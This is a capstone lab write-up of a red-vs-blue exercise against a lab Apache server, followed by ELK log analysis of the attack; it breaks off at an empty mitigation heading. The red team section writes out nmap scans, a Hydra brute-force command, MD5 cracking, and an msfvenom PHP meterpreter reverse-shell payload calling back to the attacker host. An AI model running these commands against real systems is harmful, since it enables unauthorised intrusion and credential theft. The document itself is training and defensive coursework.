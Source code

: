 # Capstone Engagement #
### Assessment, Analysis, and Hardening of a Vulnerable System ###
#### Author: Exton Howard ####
#### July 15, 2021 ####

## High Level Summary ##

The Red Team is tasked with performing network scans, finding any vulnerabilities that are present and exploitable on the Capstone Apache Web Server, and then exploiting thos vulnerabilities to find a target file on the machine called flag.txt that is located somewhere on the machine.
After the Red Team exploits the machine, the Blue Team is tasked with performing analysis on the logs to determine what the Red Team did and then determine mitigation and hardening strategies for the vulnerabilities exploited by the Red Team.

## Network Topology ##

| IP | Machine |
| :---: | :---: |
| 192.168.1.1 | Hyper-V |
| 192.168.1.90 | Kali |
| 192.168.1.100 | Elastic Stack (ELK) |
| 192.168.1.105 | Capstone |

![alt text](/Network_Topology.png "Network Topology")


## Red Team - Penetration Test ##

Scanned the network using nmap

```
nmap -sS -O -PN 192.168.1.0/24
```

Discovered 4 machines (listed above) and immediately disrgarded 192.168.1.1 as it was the Hyper-V gateway and 192.168.1.90 as it was my attacking Kali Linux machine

Found a machine at 192.168.1.105 which appeared to be a web server and piqued my interest. Ran a second nmap scan at that specific machine top confirm it was the target

```
nmap -sV -O 192.168.1.105
```

![alt text](https://github.com/ExtonHoward/Red_vs_Blue_Project/blob/main/screenshots/rt_NMAP.JPG "nmap scan")

Determined this machine is a web server with ports 22 & 80 exposed. Port 22 is running OpenSSH version 7.6p1 and port 80 is running Apache version 2.4.29. Since a webserver is up, Opened a browser and navigated to 192.168.1.105 to see what was there. Found a webserver with a list of directories. Performed cursory research into each directory and found reference to a `/company_folders/secret_folder/` that is not supposed to be exposed to the public. Typed `http://192.168.1.105/company_folders/secret_folder/` to see what I could find. A login screen pops up and states "For Ashton's eyes only". This identifies the most likely admin for the secret folder. No luck. Navigated to `meet_our_team` and read the files about the team, specifically Ashton. Nothing jumped out. Returned to the secret folder.

![alt text](https://github.com/ExtonHoward/Red_vs_Blue_Project/blob/main/screenshots/rt_webserver.JPG "Web Server")

![alt text](https://github.com/ExtonHoward/Red_vs_Blue_Project/blob/main/screenshots/rt_secret_folder.JPG "Secret Folder Login")

Now to enter the secret folder. Attempted no credentials, no password, and a couple of very basic passwords. Since no credentials were determined, will need to attempt a Brute Force attack using Hydra. Hydra ran with the rockyou.txt wordlist and after a short amount of times, returned ashtons login credentials.

```
hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder -t 40
```

![alt text](https://github.com/ExtonHoward/Red_vs_Blue_Project/blob/main/screenshots/rt_Hydra.JPG "Ashton's login credentials")

Now to login to the Secret Folder & see what's there. Logging in allowed me to find a file called `connect_to_corp_server` and inside I found directions to a WebDAV server along with a new user name (Ryan) and a password hash. At a glance, the hash appears to be MD5. Ran Hash Identifier to confirm it is MD5. Used crackstation.net to see if it is easily cracked in their database or if more powerful cracking needed to be done. Crackstation.net returned the credentials and confirmed it was an unsalted MD5 hash.

![alt text](https://github.com/ExtonHoward/Red_vs_Blue_Project/blob/main/screenshots/rt_secret_file.JPG "connect-to_corp_server")

![alt text](https://github.com/ExtonHoward/Red_vs_Blue_Project/blob/main/screenshots/rt-hash-id.JPG "Hash-Identifier")

![alt text](https://github.com/ExtonHoward/Red_vs_Blue_Project/blob/main/screenshots/rt-crackstation.JPG "crackstation.net")

Followed the directions to gain access to the WebDAV server & logged in with Ryan's credentials. Found the WebDAV had remote unrestricted upload permissions. Crafted a payload using MSFVenom to create a PHP reverse shell and uploaded into the WebDAV directory.

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 > exploit.php
```

![alt text](https://github.com/ExtonHoward/Red_vs_Blue_Project/blob/main/screenshots/rt_webdav_connection.JPG "WebDAV directory")

![alt text](https://github.com/ExtonHoward/Red_vs_Blue_Project/blob/main/screenshots/rt_msfvenom_payload_reverse_shell.JPG "MSFVenom Payload")

Uploaded the payload, deployed a listener in Metasploit, then detonated the payload. Gained a Meterpreter session

![alt text](https://github.com/ExtonHoward/Red_vs_Blue_Project/blob/main/screenshots/rt_meterpreter_session.JPG "Meterpreter session")

Dropped into a full shell, located the target file, and read out the flag.

![alt text](https://github.com/ExtonHoward/Red_vs_Blue_Project/blob/main/screenshots/rt_shell.JPG "Shell")

![alt text](https://github.com/ExtonHoward/Red_vs_Blue_Project/blob/main/screenshots/rt_Flag.JPG "Flag")


## Blue Team - Analysis of Attack ##

With the Red Team engagement now complete, the Blue Team used the Elastic Stack (ELK) located at 192.168.1.100 and the beats packages (filebeat, metricbeat, and packetbeat) that were installed on the target machine at 192.168.1.105 to perform analysis of the attack and identify the indicators of attack.

The first indicator of attack was a Port Scan that was conducted on July 1, 2021 at 10:21:10 pm. In the span of less than a second there were 1000 packets recieved and then returned to a machine. Upon further investigation, the destination ports were all different. Additionally, all of the packets came from the same IP address of 192.168.1.90. This is a clear indication that someone is scanning all ports

![alt text](https://github.com/ExtonHoward/Red_vs_Blue_Project/blob/main/screenshots/bt_nmap_scan.JPG "nmap scan")

After the port scan, when narrowing the time frame, found someone had accessed `http://192.168.1.105/company_folders/secret_folder`. This is a folder that is not supposed to be accessed. There were 16,412 total packets sent to the secret_folder and most of them had a HTTP response code of 401, which is unautorized. This is a clear indication of a Brute Force attack. The user agent for these attacks was Mozilla/4.0 (Hydra) which is a brute force attack tool. Also found that the file `http://192.168.1.105/company_folders/secret_folder/connect_to_corp_server` was accessed which means that the Brute Force Attack was successful. 

![alt text](https://github.com/ExtonHoward/Red_vs_Blue_Project/blob/main/screenshots/bt_secret_folder_access1.JPG "Access of Secret Folder")

![alt text](https://github.com/ExtonHoward/Red_vs_Blue_Project/blob/main/screenshots/bt_secret_folder_access2.JPG "Access of Secret Folder")

![alt text](https://github.com/ExtonHoward/Red_vs_Blue_Project/blob/main/screenshots/bt_hydra.JPG "Brute Force Attack")

After consulting the file located in the secret folder, determined that the file contained instructions and credentials to the WebDAV directory. Searched and found that someone had accessed the WebDAV directory from IP address 192.168.1.90. Tha attacker uploaded or accessed multiple files in the directory.

![alt text](https://github.com/ExtonHoward/Red_vs_Blue_Project/blob/main/screenshots/bt_webdav_visulation.JPG "WebDAV access")

![alt text](https://github.com/ExtonHoward/Red_vs_Blue_Project/blob/main/screenshots/bt_webdav_files.jpg "WebDAV files")

Upon further inspection of the files in the WebDAV directory, found one of the files called out and connected to a meterpreter session to give the attacker a shell to continue their attack. At this point, the attacker has significant access to the machine.

![alt text](https://github.com/ExtonHoward/Red_vs_Blue_Project/blob/main/screenshots/bt_Meterpreter_connection1.JPG "TCP shell connection")

![alt text](https://github.com/ExtonHoward/Red_vs_Blue_Project/blob/main/screenshots/bt_Meterpreter_connection2.JPG "TCP shell connection")

![alt text](https://github.com/ExtonHoward/Red_vs_Blue_Project/blob/main/screenshots/bt_Meterpreter_traffic.JPG "Meterpreter traffic")


## Vulnerabilities & Mitigation ##

